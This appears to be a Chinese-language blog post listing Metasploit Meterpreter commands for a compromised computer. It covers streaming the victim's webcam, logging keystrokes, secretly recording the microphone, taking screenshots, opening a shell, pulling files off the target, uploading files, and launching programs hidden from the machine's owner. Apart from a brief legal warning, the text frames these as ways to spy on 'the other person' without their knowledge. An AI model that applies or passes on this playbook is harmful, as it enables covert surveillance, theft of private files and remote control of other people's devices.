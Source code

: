 ```yaml
---
layout: post
title: '在Msf黑电脑的专用命令'
subtitle: 'Metasploit'
tags: linux 命令 shell
keywords: Msf Metasploit shell 黑电脑 专用
cover: https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/MsfCmd/cover.jpg
---
```


当你进入Meterpreter命令行后，你就可以使用这些命令了。  
**警告：当你执行这些命令时，你需要想过有关国家法律的东西。你不能随意的攻击别人的电脑，你只能供学习使用。**

### 使用vnc查看桌面
VNC是一种远程连接的类型。就好似TeamViewer。但是，两者间不同的点是:VNC的基础是搭在Linux上的，是使用IP地址进行连接的类型，而控制也比较流畅TeamViewer的基础是搭在Windows的，是使用ID号进行连接的类型，而控制会有些一卡一卡的。  
但是，Metasploit的基础是搭在Linux上的。所以Metasploit选用了VNC连接。
```msf
run vnc
```
### 监视摄像头
运行此命令后，你会发现`/home/root`目录生成了一个`乱码.html`的文件。打开此文件后，会看到对方的摄像头的内容。
```msf
webcam_stream
```
### 监视键盘按下内容  
执行此命令后，可以看到对方正在打什么字。如果你要查看对方打什么，先输入
```msf
keyscan_start
```
来开启键盘记录功能。  
随后，显示键盘输入什么，请输入
```msf
keyscan_dump
```
如果你看够了，输入这条命令来结束。
```msf
keyscan_stop
```
### 录制声音
这又是一个很有趣的命令了。但是，这个命令仅支持安装了麦克风的电脑。  
这种电脑大多数是笔记本、手提电脑。  
如果你要窃听对方的电脑麦克风`x`秒，你可以输入
```msf
record -d x
```
这里面的x改为你要窃听的秒数。   
  
另外，你如果想从输入命令后起就窃听，这就有点不太行了。。  
好吧，下面这个命令是从输入命令之后开始窃听**直到按下`Ctrl`+`C`** 。  
```msf
record_mic
```
### 截屏
他会告诉你保存到哪里的，不过保存下载的截屏文件名也是乱码。
```msf
screenshot
```
### 进入cmd
入侵不同的系统有不同的命令行。比如入侵Windows就是进入cmd，入侵Linux就是进入bash。
```msf
shell
```
### 从目标机器下载东西
有点和上面的一样。但是Windows有盘符，而Linux没有盘符。所以如果你想要在Windows下载一些资料的话，要确认那个放资料的盘符，然后每进入一个目录输入两条`\`。
```msf
download C:\\path\\to\\file
```
上面的`C:\\path\\to\\file`可以改成你要下载的文件所在。  
  
如果是Linux，就更简单：
```msf
download /mnt/secretfolder/x
```
上面的`/mnt/secret/x`可以改成你要下载的文件所在。

### 从kali上传内容到目标机器
这又有点不同了。这次是要上传，所以要按照`upload 本地文件 上传的目录`的格式填写。就比如我的账户`root`账号里有一个叫做x的文件，我要这样写：
```msf
upload /home/root/x C:\\path\\for\\upload
```
`/home/root/x`可以改成你的文件所在，`C:\\path\\for\\upload`可以改成你要上传到的目录。  
当然，改成Linux的话也是一样：
```msf
upload /home/root/x /home/user/desktop
```
`/home/root/x`改成你的文件所在，`/home/user/desktop`改成要上传到的目录下。

### 查看有几个摄像头
这个命令可以先“概览”一下这台机器有没有摄像头。比如说你要攻击安卓，万一安卓机器是装在台式机上的，且没配备摄像头，这就不好说了吧。。  
如果你知道你是在攻击手提电脑Windows或其他，这就变成了装逼_的命令。
```msf
webcam_list
```

### 运行程序
如果你是运行在Windows下，这就比较好了。因为Windows在“运行程序”可以不需要带目录_。但是在Linux就说不定了，就要带目录。
```msf
execute -f 文件名
```
如果想要打开应用而不被机主发现打开了程序，可以加`-H`参数，隐秘的打开。
```msf
execute -f -H 文件名
```
如果想要交互式的打开而又不要机主发现，加`-i`参数咯。  
*(当是在Windows的环境下输入是cmd的话，有惊喜！)*
```msf
execute -i -f -H 文件名
```
